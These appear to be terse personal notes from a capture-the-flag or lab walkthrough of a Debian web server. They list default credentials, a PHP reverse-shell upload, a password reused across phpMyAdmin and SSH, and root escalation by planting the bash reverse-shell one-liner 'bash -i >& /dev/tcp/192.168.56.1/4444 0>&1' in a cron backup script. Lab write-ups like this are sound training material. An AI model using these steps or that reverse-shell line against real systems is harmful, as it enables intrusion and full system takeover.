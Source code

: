 Debian 10

- 80 - Apache v2.4.38
	- /academy
		- Admin page creds are `admin/admin`
		- creds are `10201321/admin` -> changed from reset password![[Pasted image 20221027195133.png]]
		- php reverse shell upload in profile picture 
			- linpeas -> see ssh and myphpadmin
				- /home/grimmie/backup.sh
				- $mysql_password = "My_V3ryS3cur3_P4ss";
		
	- /phpmyadmin
		- cred are `grimmie/My_V3ryS3cur3_P4ss`

- 22 - ssh (v7.9?)
	- creds are `grimmie/My_V3ryS3cur3_P4ss`
	- /home/grimmie/backup.sh
		- edit backup with bash revshell so it executes as root
		- `bash -i >& /dev/tcp/192.168.56.1/4444 0>&1`

- 21 - ftp